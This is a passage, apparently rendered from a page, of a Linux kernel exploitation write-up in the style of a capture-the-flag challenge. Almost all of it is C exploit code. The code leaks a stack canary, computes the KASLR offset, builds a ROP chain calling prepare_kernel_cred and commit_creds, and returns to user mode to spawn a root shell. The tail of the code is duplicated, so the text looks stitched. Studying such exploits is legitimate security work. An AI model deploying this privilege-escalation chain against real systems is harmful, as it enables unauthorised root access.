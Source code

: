```c
            printf("\033[33m\033[1m[√] Found swapgs_restore_regs_and_return_to_usermode: %lx\033[0m\n", swapgs_restore_regs_and_return_to_usermode);
        }
    }

    offset = swapgs_restore_regs_and_return_to_usermode - 0xa008da - 0xffffffff81000000;
    core_set_offset(fd, 64);
    core_read(fd, name);
    canary = ((size_t *)name)[0];
    printf("\033[34m\033[1m[*] offset: 0x%lx\033[0m\n", offset);
    printf("\033[33m\033[1m[√] Canary: %lx\033[0m\n", canary);

    for (i = 0; i < 10; i++) rop[i] = canary;
    rop[i++] = POP_RDI_RET + offset;
    rop[i++] = 0;
    rop[i++] = prepare_kernel_cred;
    rop[i++] = POP_RDX_RET + offset;
    rop[i++] = POP_RCX_RET + offset;
    rop[i++] = MOV_RDI_RAX_CALL_RDX + offset;
    rop[i++] = commit_creds;
    rop[i++] = SWAPGS_POPFQ_RET + offset;
    rop[i++] = 0;
    rop[i++] = IRETQ + offset;
    rop[i++] = (size_t)shell;
    rop[i++] = user_cs;
    rop[i++] = user_rflags;
    rop[i++] = user_sp;
    rop[i++] = user_ss;

    write(fd, rop, 0x100);
    core_copy(fd, 0xffffffffffff0000 | (0x100));
}
``````c
_CALL_RDX + offset;
rop[i++] = commit_creds;
rop[i++] = SWAPGS_POPFQ_RET + offset;
rop[i++] = 0;
rop[i++] = IRETQ + offset;
rop[i++] = (size_t)shell;
rop[i++] = user_cs;
rop[i++] = user_rflags;
rop[i++] = user_sp;
rop[i++] = user_ss;

write(fd, rop, 0x100);
core_copy(fd, 0xffffffffffff0000 | (0x100));
}
```

#### Method 0x2 - __ksymtab

